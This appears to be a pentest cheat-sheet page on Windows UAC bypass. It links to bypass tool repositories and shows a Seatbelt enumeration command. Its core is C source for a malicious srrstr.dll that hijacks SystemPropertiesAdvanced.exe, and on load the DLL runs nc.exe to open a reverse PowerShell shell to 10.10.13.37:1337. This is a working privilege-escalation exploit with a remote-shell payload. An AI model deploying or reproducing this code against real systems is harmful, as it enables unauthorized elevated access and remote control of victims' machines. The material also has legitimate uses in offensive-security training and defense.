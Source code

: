 ```yaml
---
description: User Account Control
---
```


# UAC Bypass

* [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
* [https://github.com/sailay1996/UAC_Bypass_In_The_Wild](https://github.com/sailay1996/UAC_Bypass_In_The_Wild)
* [https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)




## Enumeration

Check current token privileges and UAC settings with Seatbelt:

```
PS > .\Seatbelt.exe TokenPrivileges UAC
```




## SystemPropertiesAdvanced.exe

`srrstr.dll` DLL hijacking.

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)

{% embed url="https://youtu.be/krC5j1Ab44I?t=3570" %}

{% code title="srrstr.c" %}
```c
// i686-w64-mingw32-g++ srrstr.c -lws2_32 -o srrstr.dll -shared

#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```
{% endcode %}
